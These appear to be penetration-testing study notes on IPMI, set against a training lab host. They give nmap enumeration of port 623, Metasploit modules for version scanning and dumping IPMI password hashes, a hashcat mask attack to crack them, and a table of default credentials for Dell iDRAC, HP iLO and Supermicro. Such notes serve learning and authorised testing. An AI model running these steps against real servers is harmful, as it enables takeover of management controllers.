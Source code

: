 ```bash
# nmap enumartion
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.loca

# use with metasploit for recon
auxiliary/scanner/ipmi/ipmi_version
# use with metasploit for dumping hashes
auxiliary/scanner/ipmi/ipmi_dumphashes

# to crack hashes 
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
```
## Password to keep in mind

|Product|Username|Password|
|---|---|---|
|Dell iDRAC|root|calvin|
|HP iLO|Administrator|randomized 8-character string consisting of numbers and uppercase letters|
|Supermicro IPMI|ADMIN|ADMIN|
